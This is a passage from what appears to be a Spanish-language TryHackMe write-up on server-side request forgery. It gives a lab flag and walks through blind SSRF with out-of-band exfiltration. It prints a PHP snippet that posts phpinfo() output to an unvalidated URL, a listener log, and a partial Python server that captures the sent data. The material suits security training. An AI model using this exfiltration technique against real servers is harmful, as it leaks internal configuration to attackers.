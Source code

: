 What is the flag value after accessing the admin panel?

``THM_{B@$ic_s$rF}``

## Task 5 Types of SSRF - Blind

Es cuando el atacante no recibe respuesta directa o retroalimentación acerca de la solicitud , son respuetas siegas
### Blind SSRF With Out-Of-Band

- El atacante monta un servidor externo para recibir las respuestas 
- Forza la saolicitud a su servidor y de esa manera se da cuenta que existe la iteracion
### Como trabajaremos
- Iremos a la opción de Profile, esta una vez cargada, envía una solicitud a un recurso externo getInfo.php, el cual se usa para analitic o logs
```
<?php
...
$targetUrl = $_GET['url'];
ob_start();
ob_start();
phpinfo();
$phpInfoData = ob_get_clean();
$ch = curl_init($targetUrl); 
curl_setopt($ch, CURLOPT_POST, 1);
curl_setopt($ch, CURLOPT_POSTFIELDS,$phpInfoData);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$response = curl_exec($ch); 
...
?>
```
- el análisis de código muestra que se lee el parámetro url sin validación, y el código envía la información al servidor mencionado en el pámetro url
- Primero probamos a nuestro propio servidor, una vez que vemos la silicitud nos damos cuenta que existe la vulnerabilidad

```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
^[^[10.10.92.79 - - [05/May/2024 15:59:18] code 501, message Unsupported method ('POST')
10.10.92.79 - - [05/May/2024 15:59:18] "POST / HTTP/1.1" 501 -

```

- Grabamos el codigo a server.py para recibir la respuesta y guardarla

```
from http.server import SimpleHTTPRequestHandler, HTTPServer
from urllib.parse import unquote
class CustomRequestHandler(SimpleHTTPRequestHandler):

    def end_headers(self):
        self.send_header('Access-Control-Allow-Origin', '*')  # Allow requests from any origin
        self.send_header('Access-Control-Allow-Methods', 'GET, POST, OPTIONS')
        self.send_header('Access-Control-Allow-Headers', 'Content-Type')
        super().end_headers()

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'Hello, GET request!')

    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')
```